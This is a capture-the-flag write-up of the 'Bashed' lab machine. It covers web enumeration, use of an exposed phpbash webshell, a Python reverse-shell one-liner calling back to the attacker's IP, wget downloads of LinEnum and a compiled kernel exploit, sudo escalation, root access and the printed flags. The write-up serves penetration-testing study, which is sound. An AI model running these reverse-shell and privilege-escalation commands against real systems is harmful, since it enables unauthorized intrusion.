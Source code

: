 ```yaml
---
layout: post
title: Bashed
tags: [OSCP, Writeup, Web, Linux, Web, File Misconfiguration]
description: "Bashed write-up"
---
```


![Bashed logo](/assets/imgs/bashed/bashed.png)

### This is an easy linux box

## Tools used

------

- bash
- chmod
- ffuf
- gcc
- nc
- nmap
- python
- searchsploit
- sudo
- wget

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA bashed 10.10.10.68 -v

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Here’s what nmap teaches us :

- port 80 (HTTP) - Apache 2.4.18 (ubuntu)

So there is only the web port open, let's go see what's on it !

![Website image](/assets/imgs/bashed/website.PNG)

So there not a lot of thing on this website, only a two pages :

- index.html
- single.html

Single.html talks about something called "phpbash", which is a webshell. So there may be a way to found it on the web server. Let's do some files/directories brute force with ffuf :

```
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.68/FUZZ -e .php,.html,.txt -t 10                                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.html              [Status: 200, Size: 7742, Words: 2956, Lines: 162]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
about.html              [Status: 200, Size: 8190, Words: 2878, Lines: 155]
contact.html            [Status: 200, Size: 7802, Words: 2630, Lines: 157]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
single.html             [Status: 200, Size: 7476, Words: 2740, Lines: 155]
```

There is 4 things that stands out from ffuf :

- uploads
- php
- dev
- config.php

Going throuth all of them, the most interresting one is "/dev" :

![Index of /dev](/assets/imgs/bashed/dev.PNG)

## Exploit

------

Going over : http://10.10.10.68/dev/phpbash.php, gives me access to the webshell with the same right as the web server :

![Webshell](/assets/imgs/bashed/webshell.PNG)

I don't really like this webshell, so let's get a reverse shell on my machine, first launch a nc listener :

```
nc -lvp 1234
```

Then on the webshell use this reverse shell from : 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And I'm connected :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 58018
/bin/sh: 0: can't access tty; job control turned off
```

Get a tty shell :

```
python -c "import pty;pty.spawn('/bin/bash')"
```

Now let's escalate ! First things that I do is to see if I can run commands as someone else :

```
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So I can run any commands as "scriptmanager", so give me a bash ! 

```
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$whoami
whoami
scriptmanager
```

And here I'm scriptmanager ! Now it's enumeration time, let's upload "LinEnum.sh" on the box. First, start python server to transfert files :

```
python -m SimpleHTTPServer
```

Then, on the reverse shell download it :

```
wget http://10.10.14.10:8000/LinEnum.sh
```

Now launch the enumeration script :

```
bash LinEnum.sh
```

This is what I looked first :

```
[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

I learned that this is a Ubuntu 16.04.4, let's found the release date on google :

- March 1, 2018 - [https://wiki.ubuntu.com/Releases](https://wiki.ubuntu.com/Releases)

So it's been release more thant two years ago, there migth be some local privilege escalation, go found out with searchsploit :

![Searchsploit Ubuntu](/assets/imgs/bashed/searchsploit.PNG)

Download the exploit :

```
searchsploit -m linux/local/44298.c
```

Going throught the code, I didn't found any compilation instruction, so I just compiled it with this basic command :

```
gcc 44298.c -o exploit
```

Upload the compiled exploit on the machine :

```
python -m SimpleHTTPServer
```

```
wget http://10.10.14.10:8000/exploit
```

Give the exploit execution rights :

```
chmod +x exploit
```

Then run it :

```
scriptmanager@bashed:/tmp$ ./exploit
./exploit
task_struct = ffff88003775d400
uidptr = ffff88003b7c0f04
spawning root shell
root@bashed:/tmp# whoami
whoami
root
```

And voila, I'm root ! Now go read the flags.

## Flags

------

### User.txt

```
root@bashed:/home/arrexel# cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### Root.txt

```
root@bashed:/root# cat root.txt
cat root.txt
cc4f0afe3a1026d402ba10329674a8e2
```